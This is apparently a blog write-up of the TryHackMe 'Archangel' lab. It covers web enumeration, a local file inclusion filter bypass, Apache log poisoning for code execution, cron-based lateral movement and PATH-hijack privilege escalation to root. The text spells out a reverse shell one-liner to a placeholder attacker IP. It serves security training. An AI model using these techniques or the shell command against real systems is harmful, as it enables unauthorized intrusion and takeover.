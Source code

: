 ```yaml
---
layout: post
title: "Archangel Write Up"
categories: [cybersecurity, writeUps, tryHackMe]
---
```


This is a write up for the room [Archangel](https://tryhackme.com/room/archangel) from [tryhackme](https://tryhackme.com).

<!-- MarkdownTOC -->

- [Initial Enumeration](#initial-enumeration)
- [Exploitation](#exploitation)
- [Local Enumeration](#local-enumeration)
- [Privilege Escalation](#privilege-escalation)

<!-- /MarkdownTOC -->

## Initial Enumeration

`Nmap` results

![nmap](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc1.png)

We have `Ubuntu` as OS.

- Port 22 OpenSSH 7.6p1
- Port 80 Apache 2.4.29

The server on port 80 shows a web page where we can see this email direction

![email](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc2.png)

Before adding the domain to `/etc/hosts` we check the result `/flags` obtained with `gobuster`.

![flags](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc3.png)

That `flag.html` file just redirects us to a youtube music video.

Once we add the domain to our `hosts` file if we navigate to the site we have this page.

![web](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc4.png)

Running `gobuster` from this domain we find the `/test.php` page. This is supposed to be vulnerable to local file inclusion. Playing with the examples [here](https://book.hacktricks.xyz/pentesting-web/file-inclusion) we manage to download the `php` code of the application, `base64` encoded.

![b64](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc5.png)

Decoding the `base64` string we see the code.

![php](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc6.png)

## Exploitation

Here we find the second flag and we can see the filters the application has. As we can see we are forced to use the `view` parameter, the `/var/www/html/development_testing` has to be part of the crafted url and `../..` can't be included.

First we find a way to bypass the `../..` filter and test it reading `/etc/passwd`

![test1](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc7.png)

![testr1](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc8.png)

Now to turn the `lfi` vulnerability into remote code execution we are going to use log poisoning as explained [here](https://ironhackers.es/en/tutoriales/lfi-to-rce-envenenando-ssh-y-apache-logs/).

We verify we can access the apache logs

![apache](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc9.png)

![apache](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc10.png)

Next we are going to poison the logs including a `php` string into the `User-Agent` field of the request.

![poison](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc11.png)

And we test we have code execution adding `&cmd=id` at the end of the query.

![rce](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc12.png)

![id](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc13.png)

Now we change the payload

````shell
bash -c 'bash -i >&/dev/tcp/<ATTACKER-IP>/<PORT> 0>&1'
````

But url enconded

![shell](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc14.png)

And we gain a shell

![shell](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc15.png)

## Local Enumeration

The only user on the machine is `archangel`, we can read the user flag from his home directory. We have a `passwordbackup` file but is just a link to the same youtube video we saw before.

![passback](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc16.png)

We have a `cronjob` executing every minute as the user `archangel`

![crontab](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc17.png)

This executable is writable by everyone so we can modify it to gain a shell into the machine as the `archangel` user.

![shell2](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc18.png)

![shell2](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc19.png)

## Privilege Escalation

Now we can access the `secret` directory and grab the user2flag. We also have a backup executable file, owned by `root` and executable by everyone. If we try to execute it we have

![backup](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc20.png)

We modify the `PATH` environment variable and create a `cp` executable to spawn a shell as `root`.

![root](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc21.png)